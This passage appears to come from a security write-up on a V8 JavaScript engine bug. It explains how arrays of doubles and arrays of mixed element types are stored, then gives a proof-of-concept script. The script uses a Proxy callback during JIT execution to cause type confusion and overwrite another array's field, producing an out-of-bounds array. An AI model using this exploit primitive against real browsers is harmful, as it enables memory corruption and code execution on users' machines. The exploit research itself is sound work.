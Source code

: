 If an array is initialized with all elements of type `double`, each element would
be stored as immediate value which takes up to 64-bit of memory space.
On the other hand, for an array with mixed element types, each element would be
stored as a pointer which takes up to 32-bit of memory space. Thus, if an array
is changed from all `double` to mixed elements, there would be reallocation,
potentially from larger size to smaller size.

> [!NOTE]
> If you want to dive a bit deeper into V8 internals, you could read this little
> [note](../../../../notes/pwn/v8/) that I have written.

## Type Confusion to Memory Corruption

Let's have a look at the type confusion and how it leads to overwriting another
object field. This is the script used for triggering the type confusion:

```js,hidelines=///
THRESHOLD = 0x2000

function f(p) {
    a.push(  // [5]
        Reflect.construct(function(){}, arguments, p)?4.1835592388585281e-216:0  // [1]
    ); // itof(0x1337133700010000) = 4.1835592388585281e-216
}

let a;
let oob_arr;

let jitted = false

let p = new Proxy(Object, {
    get: function() {
        if (jitted) {
            ///eval("%DebugPrint(a)")
            ///eval("%SystemBreak()")
            a[0] = {};  // [2] change `a` from `HOLEY_DOUBLE_ELEMENTS` to `HOLEY_ELEMENTS`
            ///eval("%DebugPrint(a)")
            ///eval("%SystemBreak()")
            oob_arr = Array(1);  // [3]
            oob_arr[0] = 1.1;  // [4]
            ///eval("%DebugPrint(a)")
            ///eval("%DebugPrint(oob_arr)")
            ///eval("%SystemBreak()")
        }
        return Object.prototype;
    }
})

for (let i = 0; i <= THRESHOLD; i++) {
    a = Array(8)
    a[1] = 0.1
    a.pop()  // make a room such that push() does not reallocate elements
    if (i == THRESHOLD) {
        jitted = true;
    }
    f(p)
}
```
